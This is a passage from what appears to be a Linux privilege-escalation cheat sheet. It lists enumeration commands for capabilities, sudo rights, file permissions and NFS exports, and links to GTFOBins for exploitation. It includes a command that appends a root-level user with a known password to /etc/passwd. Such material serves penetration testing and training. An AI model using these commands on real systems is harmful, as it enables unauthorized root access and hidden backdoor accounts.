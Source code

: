 -> Exploitation  
https://gtfobins.github.io/

### Capabilities [PrivEsc]
-> Enumeration  
```
getcap -r / 2>/dev/null
```

-> Exploitation  
https://gtfobins.github.io/

### Binary with Sudo [PrivEsc]
```
sudo -l
```
or  
```
cat /etc/sudoers
```

-> Exploitation  
https://gtfobins.github.io/

#### Run commands as another user with permission through sudo [PrivEsc]
```
sudo -u <username> <command>
```

### Weak File Permissions / Passwd Writabble [PrivEsc]
-> Enumeration  
```
ls -la /etc/passwd
ls -la /etc/shadow
```

-> Exploitation  
```
echo "user:$(openssl passwd password123):0:0:root:/root:/usr/bin/bash" >> /etc/passwd
```

### NFS Root Squashing
-> Detection - VM Owned
``` 
cat /etc/exports
```

-> Viewing nfs directories with access - Attacker VM
```
showmount -e <ip>
```

-> Get nfs version - Attacker VM
```
rpcinfo <ip>
```
